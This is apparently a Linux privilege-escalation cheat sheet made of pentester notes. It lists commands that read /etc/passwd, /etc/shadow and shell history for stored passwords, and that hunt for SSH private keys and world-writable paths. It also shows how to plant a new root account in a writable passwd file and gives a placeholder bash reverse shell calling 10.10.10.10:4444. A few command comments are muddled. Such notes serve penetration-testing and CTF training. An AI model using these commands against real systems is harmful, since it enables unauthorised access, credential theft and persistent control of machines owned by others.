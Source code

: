 ```
find . -type f 2>/dev/null             # for those id_rsas @rennox 

cat /etc/passwd                        # displays all users
cat /etc/passwd | grep home            # show all real users!
cat /etc/shells                        # displays all shells
cat /etc/crontab                       # displays all cronjobs
cat /etc/hosts
cat /etc/resolv.conf
ls -la ~/.*history                     # All the history files in a directory
cat ~/.*history | less                 # view all them
cat /proc/cpuinfo                      # duh, but also nproc show number of cpus
cat /proc/version                      # for kernel version
cat /etc/issue
cat /etc/exports                       # Check for no_squash_root on writable shares 
## Stored Creds in cat-able config, history, txt files
cat /../*.*vnp
         cat ~/.bash_history | grep -i passw
```

## World writable files and directories to check
```
ls -la /etc/hosts; ls -la /etc/crontab; ls -la /etc/shadow; ls -la /shadow.bak 
find / -writable -type d 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null
```
### touch or edit some file with for shell  
Don't forget Language, file extensions, shared binaries or libraries  
This just a placeholder example:  
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

## Weak file permission on password system
```
cat /etc/passwd | cut -d: -f1 | awk -F: '($3 == "0") {print}' /etc/passwd
ls -la /etc/shadow | cat /etc/shadow
```
#### probably better in persistence/backdoor areas as this seems rare writable /etc/passwd

```
openssl passwd newpasswordhere # Add a new root for passwd
mkpasswd -m sha-512 newpasswordhere # Add a new root for shadow
```

#### User-key related
```
openssl passwd -1 -salt [salt] [password] # Create a password hash that is compliant use ssh-keygen
ssh -i id_rsa root@ip                     # generate a ssh key, store in /root/.ssh !! remember chmod 600
```
```
find / -name authorized_keys 2>/dev/null ## Find ssh keys
find / -name id_rsa 2>/dev/null
```
copy keys  
```
chmod 400 id_rsa
ssh -i _id_rsa [id]@[ip]
```
